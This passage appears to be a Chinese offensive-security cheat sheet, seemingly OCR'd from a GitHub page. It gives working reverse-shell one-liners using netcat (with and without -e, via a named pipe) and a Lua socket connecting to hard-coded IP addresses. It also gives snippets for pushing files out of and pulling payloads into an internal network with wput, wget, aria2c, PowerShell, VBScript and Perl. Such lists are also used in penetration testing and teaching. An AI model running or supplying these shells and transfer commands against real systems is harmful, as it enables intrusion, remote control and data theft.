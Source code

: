 ```
nc -e /bin/sh 223.8.200.234 1234 
```
```
#不使用-e
mknod /tmp/backpipe p
/bin/sh 0/tmp/backpipe | nc attackerip listenport 1>/tmp/backpipe
```

lua 
```
lua -e "require('socket');require('os');t=socket.tcp();t:connect('202.103.243.122','1234');os.execute('/bin/sh -i <&3 >&3 2>&3');"
```

### 内网文件的传输和下载   
wput 
```
wput dir_name ftp://linuxpig:123456@host.com/
```
wget 
```
wget http://site.com/1.rar -O 1.rar
```
ariac2（需安装） 
```
aria2c -o owncloud.zip https://download.owncloud.org/community/owncloud-9.0.0.tar.bz2
```
powershell
```
$p = New-Object System.Net.WebClient 
$p.DownloadFile("http://domain/file","C:%homepath%file") 
```
vbs脚本 
```
Set args = Wscript.Arguments
Url = "http://domain/file"
dim xHttp: Set xHttp = createobject("Microsoft.XMLHTTP")
dim bStrm: Set bStrm = createobject("Adodb.Stream")
xHttp.Open "GET", Url, False
xHttp.Send
with bStrm
.type = 1 '
.open
.write xHttp.responseBody
.savetofile " C:\%homepath%\file", 2 '
end with
```
>执行 ：cscript test.vbs

Perl 
```
#!/usr/bin/perl 
use LWP::Simple; 
getstore("http://domain/file", "file");
```
>执行：perl test.pl
